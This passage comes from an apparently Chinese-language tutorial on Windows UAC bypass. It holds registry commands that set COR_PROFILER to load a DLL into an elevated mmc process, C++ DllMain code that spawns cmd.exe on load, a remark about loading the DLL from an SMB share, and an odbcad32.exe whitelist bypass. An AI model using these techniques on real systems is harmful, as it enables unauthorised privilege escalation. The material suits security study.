     
    
    REG ADD "HKCU\Software\Classes\CLSID\{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}\InprocServer32" /ve /t REG_EXPAND_SZ /d "C:\test\calc.dll" /f  
    REG ADD "HKCU\Environment" /v "COR_PROFILER" /t REG_SZ /d "{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}" /f  
    REG ADD "HKCU\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f  
    mmc gpedit.msc  
      
  
---  
  
但我死活复现不起不知道为啥，我的dll这样写的

    
    
    // dllmain.cpp : 定义 DLL 应用程序的入口点。  
    #include "pch.h"  
    #include <iostream>  
    #include <Windows.h>  
      
    BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)  
    {  
        char cmd[] = "cmd.exe";  
      
        switch (fdwReason)  
        {  
        case DLL_PROCESS_ATTACH:  
            WinExec(cmd, SW_SHOWNORMAL);  
            ExitProcess(0);  
            break;  
        case DLL_THREAD_ATTACH:  
            break;  
        case DLL_THREAD_DETACH:  
            break;  
        case DLL_PROCESS_DETACH:  
            break;  
        }  
        return TRUE;  
    }  
      
  
---  
  
另外的，你还可以为COR_PROFILER_PATH设置为如\\\server\share\test.dll的smb的路径，这样也可以实现bypassuac（没复现）

## 3\. 白名单程序

### odbcad32.exe

这个方法很简单。打开C:\Windows\system32\odbcad32.exe，然后通过以下方法打开powershell或者cmd

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815101551.png)

成功bypass

### ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815101552.png)

